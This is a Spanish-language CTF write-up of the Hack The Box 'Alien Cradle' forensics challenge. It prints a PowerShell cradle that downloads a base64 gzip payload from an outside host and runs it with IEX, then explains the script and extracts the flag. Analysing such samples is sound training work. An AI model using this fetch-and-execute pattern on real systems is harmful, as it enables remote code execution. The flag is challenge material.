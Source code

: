 ```yaml
---
layout: single
title: Alien Cradle - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el segundo desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad very-easy y se nos proporciona un script de PowerShell pseudo-ofuscado que contiene la flag del desafío"
date: 2023-03-19
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-alien-cradle-ps1.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - powershell
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** very-easy

## Enunciado

_En un intento de que los extraterrestres encontraran más información sobre la reliquia, lanzaron un ataque dirigido a los amigos cercanos y socios de Pandora que pueden conocer información secreta al respecto. Durante un incidente reciente que se cree que fue operado por ellos, Pandora localizó un extraño script de PowerShell de los registros de eventos, también llamado soporte de PowerShell. Estos scripts generalmente se usan para descargar y ejecutar la siguiente etapa del ataque. Sin embargo, parece ofuscado y Pandora no puede entenderlo. ¿Puedes ayudarla a desofuscarlo?_

## unzip - cat - echo - tr

Se nos entrega un archivo llamado "forensics_alien_cradle.zip" el cual en su interior posee un script de PowerShell llamado `cradle.ps1`.

Los archivos .ps1 se utilizan para almacenar y ejecutar secuencias de comandos de PowerShell de manera que puedan ser reutilizados y ejecutados de forma repetitiva. Los scripts de PowerShell pueden contener una serie de instrucciones, llamadas a cmdlets (comandos de PowerShell), funciones personalizadas y lógica de programación para automatizar tareas, manipular datos, administrar sistemas y más.
```
❯ unzip -l forensics_alien_cradle.zip
Archive:  forensics_alien_cradle.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      618  2023-03-06 12:29   cradle.ps1
---------                     -------
      618                     1 file

```
Luego de descompimir el achivo procedemos a verificar el contenido de `cradle.ps1`, el cual se ve de la siguiente manera:

```
❯ cat cradle.ps1

if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

A modo de información el script `cradle.ps1` realiza las siguientes acciones:
  - Verifica si el nombre de usuario actual no es 'secret_HQ\Arth' utilizando `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name.` Si el nombre de usuario no coincide, el script se detiene y finaliza la ejecución.
  - Crea una nueva instancia de `net.webclient` con `$w = New-Object net.webclient`.
  - Descarga el contenido de una URL específica utilizando `$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64')`. La URL se construye concatenando las cadenas separadas por el simbolo `+`.
  - Crea una nueva instancia de `IO.MemoryStream` utilizando `[Convert]::FromBase64String($d)` para decodificar el contenido descargado en base64.
  - Define una cadena indetificada como `$f` con el valor `'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`.
  - Utiliza `IO.StreamReader` y `IO.Compression.GzipStream` para descomprimir el contenido del archivo descargado. A continuación, utiliza `ReadToEnd()` para leer todo el contenido descomprimido.
  - Finalmente, se utiliza `IEX` (Invoke-Expression) para ejecutar el contenido obtenido en el paso anterior.

Resulta bastante sencillo encontrar la flag, ya que está declarada dentro del script como valor de la variable `$f`. En este caso, se utiliza el método de ofuscación de concatenación de cadenas. Para desofuscar el mensaje, procedemos a utilizar el siguiente comando:
```
❯ echo "'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}" | tr -dc '[:alnum:]{}_'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}  
```

`tr -dc '[:alnum:]{}_'` : El comando `tr` en Linux es una herramienta que se utiliza para realizar operaciones de traducción o transliteración de caracteres en un flujo de texto. El nombre "tr" es una abreviatura de "translate" (traducir). En este caso se esta utilizando con el argumento `-d` para eliminar caracteres y `-c` para especificar los caracteres que queremos mantener. `'[:alnum:]{}_'` especifica que se deben mantener los caracteres alfanuméricos ([:alnum:]), los corchetes ({}) y los guiones bajos (\_). Los demás caracteres se eliminarán.

## Flag

**HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**
